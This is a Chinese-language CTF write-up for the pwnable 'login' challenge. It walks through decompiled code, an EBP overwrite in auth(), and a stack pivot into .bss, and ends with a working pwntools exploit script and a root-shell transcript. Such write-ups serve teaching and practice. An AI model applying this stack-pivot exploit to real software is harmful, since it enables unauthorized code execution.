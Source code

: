 ```yaml
---
layout: post
title: pwn pwnable login
excerpt: "pwnable login wirteup"
categories: [Writeup]
comments: true
---
```


ida打开如下
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE *v4; // [sp+18h] [bp-28h]@1
  __int16 v5; // [sp+1Eh] [bp-22h]@1
  unsigned int v6; // [sp+3Ch] [bp-4h]@1

  memset(&v5, 0, 0x1Eu);                        // v5置零
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &v5);                   // 屏幕输入30字符到v5
  memset(&input, 0, 0xCu);                      // 置零
  v4 = 0;
  v6 = Base64Decode((int)&v5, &v4);             // v5进行解码
  if ( v6 > 014 )                               // v6>14则长度错误
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v4, v6);                     // 把v4复制到&input中,长度v6
    if ( auth(v6) == 1 )                        // md5校验,正确了就返回1
      correct();                                // 答对了直接开shell
  }
  return 0;
}
```

程序要求我们输入一个base64编码过的字符串，随后会进行解码并且复制到位于bss段的全局变量input中，最后使用auth函数进行验证，通过后进入带有后门的correct()打开shell

打开auth函数发现有栈溢出,offset为`8+4 = 12`
```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [sp+14h] [bp-14h]@1
  char *s2; // [sp+1Ch] [bp-Ch]@1
  int v4; // [sp+20h] [bp-8h]@1

  memcpy(&v4, &input, a1);                      // 栈溢出
  s2 = (char *)calc_md5(&v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```
调试发现不幸的是我们不能控制EIP，只能控制到EBP。这就需要用到stack pivot把对EBP的控制转化为对EIP的控制了。由于程序把解码后的输入复制到地址固定的`.bss`段上，且从auth到程序结束总共要经过auth和main两个函数的leave; retn。我们可以将栈劫持到保存有输入的.bss段上,结构如下
```
--------
new ebp |
--------|
new eip |两次leave,ret 之后,该地址的值为eip
--------|
.....   |
--------
```
而输入的内容是复制到`.bss`中的,所以payload在`stack`中如下

```
--------------
aaaa          |
--------------|
new eip       |
--------------|
point to .bss |
---------------
```
而输入的内容是复制到`.bss`中的,所以payload在`.bss`中如下
```
--------------
aaaa          | new ebp的值,无关紧要,所以aaaa
--------------|
new eip       | 两次leave,ret 之后,该地址的值为eip
--------------|
point to .bss |
---------------
```

最终的exp
```python
#!/usr/bin/python
#coding:utf-8

from pwn import *
from base64 import *

context.update(arch = 'i386', os = 'linux', timeout = 1)
io = process('./login')

payload = "aaaa"                #padding
payload += p32(0x08049284)      #system("/bin/sh")地址，整个payload被复制到bss上，栈劫持后retn时栈顶在这里
payload += p32(0x0811eb40)      #新的esp地址
io.sendline(b64encode(payload))
io.interactive()
```
结果
```python
python exp.py 
[+] Starting local process './login': pid 21958
[*] Switching to interactive mode
Authenticate : hash : 042095d730ded01465bcacae25f0b5ce
$ id
uid=0(root) gid=0(root) 组=0(root)

```